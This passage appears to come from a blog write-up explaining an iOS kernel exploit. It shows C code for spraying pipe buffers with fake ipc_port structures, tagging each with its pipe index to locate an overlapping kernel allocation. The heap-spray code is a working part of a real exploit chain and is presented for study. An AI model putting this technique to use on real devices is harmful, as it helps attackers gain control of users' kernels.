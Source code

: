Also, for each pipe buffer, we are going to write the pipe buffer with possible **ipc_port** structs and change the 12 bits of **IKOT_TYPE** for the port to the pipe index. This will help us in finding the overalapping pipe amongst all the pipes, since the data in the pipe buffer will be interpreted as a fake port. This is done by the callback function **update** which in turn calls **iterate_ipc_ports** and sets the attributes for the **ipc_port**. This data is then written to the write end of the buffer.

{% highlight c %}
    size_t
    pipe_spray(const int *pipefds, size_t pipe_count,
    		void *pipe_buffer, size_t pipe_buffer_size,
    		void (^update)(uint32_t pipe_index, void *data, size_t size)) {
    	assert(pipe_count <= 0xffffff);
    	assert(pipe_buffer_size > 512);
    	size_t write_size = pipe_buffer_size - 1;
    	size_t pipes_filled = 0;
    	for (size_t i = 0; i < pipe_count; i++) {
    		// Update the buffer.
    		if (update != NULL) {
    			update((uint32_t)i, pipe_buffer, pipe_buffer_size);
    		}
    		// Fill the write-end of the pipe with the buffer. Leave off the last byte.
    		int wfd = pipefds[2 * i + 1];
    		ssize_t written = write(wfd, pipe_buffer, write_size);
    		if (written != write_size) {
    			// This is most likely because we've run out of pipe buffer memory. None of
    			// the subsequent writes will work either.
    			break;
    		}
    		pipes_filled++;
    	}
    	return pipes_filled;
    }
{% endhighlight %}

As we can see from Step 4, the **iterate_ipc_ports** basically considers the data as **ipc_port** structs and has a callback function specifying the port offset which is used to set the attributes of the ports.

{% highlight c %}
    /*
     * iterate_ipc_ports
     *
     * Description:
     * 	A utility function to help iterate over data as an array of ipc_port structs in zalloc
     * 	blocks.
     */
    static void
    iterate_ipc_ports(size_t size, void (^callback)(size_t port_offset, bool *stop)) {
    	// Iterate through each block.
    	size_t block_count = (size + BLOCK_SIZE(ipc_port) - 1) / BLOCK_SIZE(ipc_port);
    	bool stop = false;
    	for (size_t block = 0; !stop && block < block_count; block++) {
    		// Iterate through each port in this block.
    		size_t port_count = size / SIZE(ipc_port);
    		if (port_count > COUNT_PER_BLOCK(ipc_port)) {
    			port_count = COUNT_PER_BLOCK(ipc_port);
    		}
    		for (size_t port = 0; !stop && port < port_count; port++) {
    			callback(BLOCK_SIZE(ipc_port) * block + SIZE(ipc_port) * port, &stop);
    		}
    		size -= BLOCK_SIZE(ipc_port);
    	}
    }
{% endhighlight %}
